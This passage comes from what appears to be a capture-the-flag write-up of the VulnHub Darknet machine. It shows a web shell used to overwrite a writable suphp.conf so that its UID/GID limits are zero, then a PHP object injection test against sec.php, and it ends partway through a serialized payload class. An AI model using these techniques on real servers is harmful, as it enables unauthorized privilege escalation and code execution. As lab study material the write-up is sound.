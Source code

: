 Running this made the server still respond with an HTTP 500 error. Hmm. I was stuck here for quite some time trying to figure out if I can get some form of logging somewhere that I can read. At some stage, I came across `/etc/suphp` and realized that the configuration file for it is writable.

{{< figure src="/images/darknet_signal8_xpanel_suphp_writable.png" >}}

The `suphp.conf` file had an entry `logfile=/var/log/suphp/suphp.log` which I changed to log to `/tmp`, hoping for it to reveal some information about the error code I was getting. To do this, I downloaded the file, modified the entry, and used my web shell's upload functionality to override the original configuration file. This worked just fine, apart from the fact that that logfile too was not readable by me :(

Some time later, I realized that there were two more configuration options in the configuration file that are of interest.

```
; Minimum UID
min_uid=100

; Minimum GID
min_gid=100
```

Remember that the PHP scripts we are trying to access are owned by `root`? Turns out that this is a security feature of [suPHP](http://www.suphp.org/) to prevent scripts with too high permissions to run. So, I modify the configuration file again to replace the values with `0` and upload it to override the original.

{{< figure src="/images/darknet_signal8_xpanel_suphp_override.png" >}}

This time, when I try and access the `sec.php` script, I am provided with no output. Great! Back to the original Object Injection that I was trying to exploit, I rerun my python script to test the `unserialize()`.

```
root@kali:~/data/VulnHub/Darknet# python phpObjectInjection.py
[+] Exploiting the PHP Object Injection Bug
200
Showme
```

The `Showme` output is expected as the `__toString()` method is set to return this when the class should be represented as a string. Neat.

The next step was then to serialize an object with my desired values for the `Test` class's properties. Following the logic of the `__destruct()` method, it was clear to see that it would call a URL, write the contents to file and chmod the file accordingly. To do this, I added the `Test` class and set the values in my original script.

```
<?php

class Show {

    public $woot;

    function __toString(){
        return "Showme";

}
    function Pwnme(){
        $this->woot="ROOT";

}

}

class Test {

```